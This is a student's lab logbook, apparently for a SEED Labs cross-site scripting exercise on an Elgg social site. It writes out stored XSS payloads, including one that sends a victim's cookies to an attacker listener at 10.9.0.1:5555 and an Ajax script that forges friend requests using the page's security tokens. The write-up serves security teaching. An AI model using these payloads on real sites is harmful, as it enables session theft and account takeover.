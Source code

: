 # Cross Site Scripting - XSS

## Task 1
If we loggin as Alice and go edit her profile, if we insert the text: <script>alert(’XSS’);</script>
on a field such as "Brief description" and save the changes made, that will launch a popup window with the message "XSS" everytime someone sees Alice's profile (see "logbook10 task1.png"). This also means that the input field on the "Brief description" (used in our case) does not check HTML injection.

## Task 2
This task is similar to the first one, but this time we are displaying the user's cookies on the popup window and not just some text. By doing the same thing as in the task 1, but by placing the text: <script>alert(document.cookie);</script>
we can achieve this result (see "logbook10 task2.png").

## Task 3
The previous task we printed the user's cookies on a popup window, but only the user could see that. On this task we used an "image" with a src parameter that the browser will look for by a GET request. That request will be redirected to the attacker (us) since we inserted our server on the src attribute. Since we also attached an additional text to get information about the cookies, basically the browser used by the victim (Alice in our case) is going to send a GET Request to a server (10.9.0.1, more specifically to the port 5555) that our machine is listenning to. So, by placing the text:
<script>document.write('<img src=http://10.9.0.1:5555?c='+ escape(document.cookie) + '   >');</script>
in an input field like the "Brief description" (as in the previous tasks) we can get Alice's cookies displayed in our machine (see "logbook10 task3.png").

## Task 4
In this task we want to make everyone that sees Samy's profile his friend. To achieve this we needed to insert the text:
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token;
Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl, true);
Ajax.send();}</script>
on the "About me" field on Samy's profile. On the text above what we needed to change was the 'sendurl' variable. The value of that variable basically is the url that we get when adding a friend (using the HTTP Header Live extension in our browser, see "logbook10 task4.png"). This url comes with some defined tokens that we must replace by the ones gotten by our script, so that the url has the correct updated tokens, that's why we keep the initial part of the url and then add the 'ts' and 'token' variables. Additional note: we can see that Samy's id is 59. If we wanted to do this for other users we just need to change the number on the url after "friend=" (for example, Alice is 56 and Charlie is 58).


